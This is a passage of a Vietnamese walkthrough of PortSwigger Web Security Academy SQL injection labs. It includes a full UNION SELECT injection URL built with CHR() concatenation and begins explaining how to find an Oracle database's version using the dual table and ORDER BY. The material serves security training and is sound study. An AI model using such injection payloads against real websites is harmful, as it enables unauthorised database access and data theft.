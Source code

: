 ```sql!
https://0afb0092044d2e6780392b68009700af.web-security-academy.net/filter?category=Gifts%27%20UNION%20ALL%20SELECT%20NULL,(CHR(113)||CHR(113)||CHR(98)||CHR(106)||CHR(113))||(CHR(103)||CHR(117)||CHR(98)||CHR(68)||CHR(120)||CHR(76)||CHR(84)||CHR(117)||CHR(66)||CHR(80)||CHR(65)||CHR(82)||CHR(78)||CHR(113)||CHR(85)||CHR(105)||CHR(108)||CHR(71)||CHR(109)||CHR(115)||CHR(82)||CHR(118)||CHR(90)||CHR(73)||CHR(72)||CHR(97)||CHR(108)||CHR(87)||CHR(90)||CHR(100)||CHR(84)||CHR(68)||CHR(99)||CHR(78)||CHR(108)||CHR(78)||CHR(109)||CHR(85)||CHR(85)||CHR(88))||(CHR(113)||CHR(122)||CHR(122)||CHR(122)||CHR(113)),NULL--
```

![ảnh](https://hackmd.io/_uploads/SJ6l1X73a.png)

![ảnh](https://hackmd.io/_uploads/S15WkQmh6.png)

và mình chèn chuỗi đề bài cho vào cột thứ 2 và solve được lab

## 5. Lab: SQL injection attack, querying the database type and version on Oracle

link: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

### Đề bài

![image](https://hackmd.io/_uploads/SyqJ6Ni56.png)

### Phân tích

- Trước khi đi vào khai thác dữ liệu, chúng ta nên thu thập các thông tin liên quan tới mục tiêu, càng nắm bắt được nhiều thông tin, khả năng tấn công thành công sẽ càng cao. Một trong những thông tin cần xác nhận đầu tiên chính là kiểu và phiên bản hệ cơ sở dữ liệu. Tất nhiên rồi, mỗi hệ cơ sở dữ liệu có các cú pháp truy vấn khác nhau, đây là một thông tin rất quan trọng giúp cho bước xây dựng payload sau đó.

![image](https://hackmd.io/_uploads/HJdSeSsqp.png)

- Trang web chứa lỗ hổng SQL injection trong chức năng bộ lọc hiển thị sản phẩm. Kết quả được hiển thị trong giao diện trả về. Để giải quyết bài lab, chúng ta cần khai thác lỗ hổng nhằm hiển thị phiên bản hiện tại hệ quản trị cơ sở dữ liệu Oracle trong giao diện trang web.

mình gửi single quote và nhận phản hồi lỗi 500 từ phía server cho thấy web này có thể dính lỗi sqli

![image](https://hackmd.io/_uploads/SJfeZSjq6.png)

### Khai thác

- mình phát hiện ra khi sử dụng câu lệnh SELECT thì phải xác định nó lấy từ bảng hợp lệ nào với `FROM`. Trong Oracle, tồn tại một bảng mặc định ==dual==. Ta có thể sử dụng nó để thực hiện SELECT.

- Trong SQL, câu lệnh ORDER BY được sử dụng để sắp xếp kết quả của một truy vấn theo một hoặc nhiều cột. Khi bạn sử dụng ORDER BY với một số nguyên như "2", nó thường là để chỉ định cột thứ hai trong danh sách SELECT làm cột sắp xếp.
